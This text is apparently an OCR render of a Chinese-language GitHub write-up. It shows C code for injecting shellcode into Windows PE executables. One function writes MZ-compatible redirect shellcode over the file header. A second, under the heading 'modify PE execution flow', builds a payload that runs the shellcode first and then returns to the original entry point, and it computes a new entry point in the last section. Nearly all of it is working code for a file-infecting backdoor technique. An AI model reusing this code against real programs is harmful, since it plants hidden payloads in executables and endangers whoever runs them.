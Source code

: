 ```c
void overwriteHeader(BYTE* file, DWORD addr) {
	BYTE redir_code[] = "\x4D" //dec ebp
		"\x5A" //pop edx
		"\x45" //inc ebp
		"\x52" //push edx
		"\xE8\x00\x00\x00\x00" //call <next_line>
		"\x5B" // pop ebx
		"\x48\x83\xEB\x09" // sub ebx,9
		"\x53" // push ebx (Image Base)
		"\x48\x81\xC3" // add ebx,
		"\x59\x04\x00\x00" // value
		"\xFF\xD3" // call ebx
		"\xc3"; // ret
	size_t offset = sizeof(redir_code) - 8;

	memcpy(redir_code + offset, &addr, sizeof(DWORD));
	memcpy(file, redir_code, sizeof(redir_code));
}
```

## 修改 PE 执行流程

### 构建 payload

实现 shellcode 之后，下一步实现修改 PE 执行流程，使得先执行 shellcode，再返回原来的 EntryPoint 执行的效果。

```c
printf("building payload...\n");
	BYTE prefix[] = {
		0xe8, 0x06, 0x00, 0x00, 0x00,	// call shellcode
		0xe8, 0x00, 0x00, 0x00, 0x00,	// call Entry Point
		0xc3							// ret
	};
	size_t shellcodeSize = strlen(sc);
	BYTE* payload = (BYTE*)malloc(sizeof prefix + shellcodeSize);
	if (payload == NULL) {
		perror("malloc");
		exit(EXIT_FAILURE);
	}
	memcpy(payload, prefix, sizeof prefix);
	memcpy(payload + sizeof prefix, sc, shellcodeSize);
	DWORD oldEntryPoint = pefile.pimageNTHeaders->OptionalHeader.AddressOfEntryPoint;
	DWORD newEntryPoint =
		pefile.ppimageSectionHeader[pefile.pimageNTHeaders->FileHeader.NumberOfSections - 1]->VirtualAddress +
		align(pefile.ppimageSectionHeader[pefile.pimageNTHeaders->FileHeader.NumberOfSections - 1]->Misc.VirtualSize,
			pefile.pimageNTHeaders->OptionalHeader.SectionAlignment);
	DWORD offset = oldEntryPoint - newEntryPoint - 10;
	printf("old Entry: %08x, new Entry: %08x, offset: %08x\n", oldEntryPoint, newEntryPoint, offset);
	memcpy(payload + 6, &offset, sizeof(DWORD));
```
